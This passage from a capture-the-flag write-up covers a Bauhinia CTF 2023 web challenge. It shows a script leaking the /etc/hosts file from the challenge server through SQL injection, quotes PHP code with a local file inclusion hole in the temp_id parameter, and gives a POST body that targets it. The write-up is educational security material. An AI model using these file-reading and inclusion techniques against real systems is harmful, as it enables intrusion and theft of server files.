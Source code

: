 **Leaking `/etc/hosts` file:**
```shell
┌[siunam♥Mercury]-(~/ctf/Bauhinia-CTF-2023/Web/Isekai-Tensei-Hakka)-[2023.08.21|11:38:57(HKT)]
└> python3 leak_files.py
# Kubernetes-managed hosts file
host ip6-localhost ip6-loopback
42.0.83	chal20-isekai-tensei-ha
42.0.83	chal20-isekai-tensei-hakka-2.chal20.default.svc.cluste
42.0.83	chal20-isekai-tensei-hakka-2.chal20.default.svc.cluster.local	chal20-isekai-tensei-ha
```

But, I tried to guess where the flag is, like it is in environment variable and more. Unfortunately, no luck at all.

Then, I realized that this challenge should be finding an **RCE** (Remote Code Execution) vulnerability, and gain access to the challenge's instance. So, I started to look for other vulnerabilities.

> Note: I also tried to write arbitrary files via the SQL injection, but failed.

**In `/wog_act.php`, I also found somewhat LFI (Local File Inclusion) vulnerability:**
```php
<?
[...]
switch ($_POST["f"])
{
    [...]
    case "mission":
        [...]
        switch ($_POST["act"])
		{
    		[...]
    		case "end":
				include("./class/wog_item_tool.php");
				include("./class/wog_mission_tool.php");
				include("./mission/wog_mission_".$_POST["temp_id"].".php");
				$wog_item_tool= new wog_item_tool;
				$wog_mission_tool= new wog_mission_tool;
				mission_end($HTTP_COOKIE_VARS["wog_cookie"],$_POST["temp_id"]);
				unset($wog_item_tool);
				unset($wog_mission_tool);
			break;
			[...]
```

In here, we can see that **the POST parameter `temp_id` is controllable by user**.

**That being said, we should be about to include arbitrary files via `temp_id`:**
```http
f=mission&act=end&temp_id=blah
```
